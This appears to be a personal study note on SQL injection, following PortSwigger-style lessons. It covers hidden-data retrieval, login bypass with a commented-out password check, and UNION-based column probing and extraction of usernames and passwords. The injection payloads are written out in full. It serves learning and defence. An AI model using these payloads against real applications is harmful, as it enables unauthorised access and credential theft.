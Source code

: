 # SQL injection

1. [SQLi](#sqli)
2. [SQLi Union](#sqli-union)
3. [SQLi CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

* SQLi - web security vulnerability; allows attacker to interfere with queries made by app to database.

* SQLi allows attacker to view data they are not supposed to retrieve; they can modify/delete this data, or escalate it to compromise the server or perform a denial-of-service attack.

## SQLi

* Retrieving hidden data:

  * Suppose the URL for a website is ```https://insecure-website.com/products?category=Gifts```. For this, the SQL query would be like:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' AND released = 1
    ```

  * The attacker can construct an attack like ```https://insecure-website.com/products?category=Gifts'--```. This gives us the query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

    -- acts as a comment in the query
    ```

  * The attacker can also use ```https://insecure-website.com/products?category=Gifts'+OR+1=1--```, which gives us the query:

    ```sql
    SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
    ```

* Subverting app logic:

  * For app login, suppose the following SQL query is used:

    ```sql
    SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
    ```

  * The attacker can login without password by using the username ```admin'--``` in order to cut short the query:

    ```sql
    SELECT * FROM users WHERE username = 'admin'--' AND password = ''
    ```

* Retrieving data from other database tables:

  * Suppose the application executes a query based on user input 'Gifts':

    ```sql
    SELECT name, description FROM products WHERE category = 'Gifts'
    ```

  * Then, the attacker can submit the input using ```UNION```:

    ```sql
    UNION SELECT username, password FROM users--
    ```

## SQLi Union

* For ```UNION``` queries to work, the two sub-queries must return same number of columns, with compatible data types.

* Finding number of columns required:

  * Method 1 - ```ORDER BY``` clauses are used, incrementing the column index:

    ```sql
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    #until error occurs
    ```
  
  * Method 2 - ```UNION SELECT``` payloads with null values (compatible with all):

    ```sql
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    #until error modified
    ```

* Finding columns with useful data type:

  ```sql
  ' UNION SELECT 'a',NULL,NULL--
  ' UNION SELECT NULL,'a',NULL--
  ' UNION SELECT NULL,NULL,'a'--
  #until error does not occur, then relevant column is apt for string data
  ```

* Retrieving interesting data:

  ```sql
  ' UNION SELECT username, password FROM users--
  #provided there is a table 'users' with 2 columns 'username' and 'password'
  ```

* Retrieving multiple values within single column:

  ```sql
  ' UNION SELECT username || '~' || password FROM users--
  #concatenate output in Oracle using pipe operator
  ```

